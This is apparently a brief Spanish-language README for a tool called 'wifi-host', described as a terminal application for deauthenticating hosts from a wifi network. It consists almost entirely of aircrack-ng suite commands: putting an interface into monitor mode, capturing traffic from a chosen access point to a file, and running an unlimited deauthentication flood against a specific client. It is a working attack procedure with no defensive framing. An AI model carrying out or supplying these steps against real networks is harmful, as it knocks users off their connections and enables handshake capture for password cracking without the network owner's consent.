 # wifi-host
Aplicacion de terminal para deautenticar host de una red wifi

sudo pacman -S aircrack-ng

airmon-ng check
airmon-ng check kill

airmon-ng start <INTERFACE> 
airmon-ng stop <INTERFACE>

1) airodump-ng <INTERFACE>
2) airodump-ng --bssid <BSSID> --channel <CH> --write <Path> <INTERFACE>
3) aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>
